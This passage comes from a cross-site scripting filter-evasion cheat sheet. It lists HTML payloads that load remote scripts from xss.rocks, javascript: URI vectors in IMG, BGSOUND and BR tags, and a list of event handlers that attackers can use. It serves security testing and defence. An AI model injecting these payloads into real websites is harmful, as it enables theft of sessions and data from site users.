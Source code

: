 Firefox assumes it's safe to close the HTML tag and add closing tags for you. 

~~~
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
~~~

#### Protocol resolution in script tags

This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a `</SCRIPT>` tag at the end. 

~~~
<SCRIPT SRC=//xss.rocks/.j>
~~~


#### Half open HTML/JavaScript XSS vector

Unlike Firefox the IE rendering engine doesn't add extra data to your page, but it does allow the `javascript:` directive in images.

This is useful as a vector because it doesn't require a close angle bracket. 

也可以用 `<IFRAME` 代替 `<IMG`

~~~
<IMG SRC="javascript:alert('XSS')"
~~~

#### Double open angle brackets

~~~
<iframe src=http://xss.rocks/scriptlet.html <
~~~

### BGSOUND

~~~
<BGSOUND SRC="javascript:alert('XSS');">
~~~

### & JavaScript includes

~~~
<BR SIZE="&{alert('XSS')}">
~~~


## Event Handlers

* FSCommand() (attacker can use this when executed from within an embedded Flash object)
* onAbort() (when user aborts the loading of an image)
* onActivate() (when object is set as the active element)
* onAfterPrint() (activates after user prints or previews print job)
* onAfterUpdate() (activates on data object after updating data in the source object)
* onBeforeActivate() (fires before the object is set as the active element)
* onBeforeCopy() (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the execCommand("Copy") function)
* onBeforeCut() (attacker executes the attack string right before a selection is cut)
* onBeforeDeactivate() (fires right after the activeElement is changed from the current object)
* onBeforeEditFocus() (Fires before an object contained in an editable element enters a UI-activated state or when an editable container object is control selected)
* onBeforePaste() (user needs to be tricked into pasting or be forced into it using the execCommand("Paste") function)
* onBeforePrint() (user would need to be tricked into printing or attacker could use the print() or execCommand("Print") function).
* onBeforeUnload() (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
* onBeforeUpdate() (activates on data object before updating data in the source object)
* onBegin() (the onbegin event fires immediately when the element's timeline begins)